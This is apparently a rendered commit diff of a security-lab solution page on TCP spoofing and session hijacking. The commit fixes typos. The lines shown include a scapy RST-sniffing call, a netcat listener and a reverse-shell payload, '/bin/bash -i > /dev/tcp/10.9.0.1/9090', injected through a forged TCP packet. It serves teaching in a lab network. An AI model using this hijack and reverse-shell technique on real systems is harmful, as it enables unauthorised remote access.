

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Fix typos and enhance clarity in solution.md
Corrected typos and improved clarity in the explanation of TCP spoofing and reverse shell execution steps.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -164,7 +164,7 @@ def sendrst(pkt):
 pkt = sniff(iface ='br-774a3b00e93c', filter ='tcp', prn=sendrst)
 ```
 
-In this example we run the code after the Telnet login:
+In this example we run the code after the Telnet login (but you can run it when you want):
 ```bash
 root@472341f5fb4b:/# telnet 10.9.0.5
 Trying 10.9.0.5...
@@ -174,6 +174,8 @@ Ubuntu 20.04.1 LTS
 abb6db62e897 login: seed
 Password:
 Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)
+
+seed@abb6db62e897:~$
 ```
 
 ### Results
@@ -304,9 +306,9 @@ The session hijacking causes a desync of the client and the server. This is beca
 
 For the last task we want to refer to some of the steps we used in task 3.
 
-So we star by forging an hijacking attack but with a payload that enable us to execute a reverse shell from the server (10.9.0.5) and our attacking machine (10.9.0.1).
+So we start by forging an hijacking attack but with a payload that enable us to execute a reverse shell from our attacking machine (10.9.0.1) through the server (10.9.0.5).
 
-We gather Sequence number, payload size and Acknowledgment number and forge the packet.
+We gather SEQ number, payload size and ACK number and forge the packet.
 
 ```py
 #!/usr/bin/env python3
@@ -323,8 +325,8 @@ ls(pkt)
 send(pkt,verbose=0)
 ```
 
-We open a tcp connection on our machine through the use of netcat: `netcat -lnv 9090`.
+We open a TCP connection on our machine through the use of netcat: `netcat -lnv 9090`.
 
-We then send the forged packet and see if the shell connects to our machine, remembering to add carriage return (`\r`) and newline (`\r`) to be sure that the command is executed on the server: `data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n"`
+We then send the forged packet and see if the shell connects to our machine, remembering to add carriage return (`\r`) and newline (`\n`) to be sure that the command is executed on the server: `data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n"`
 
 We did everything correctly and the reverse shell connected succesfully.
````
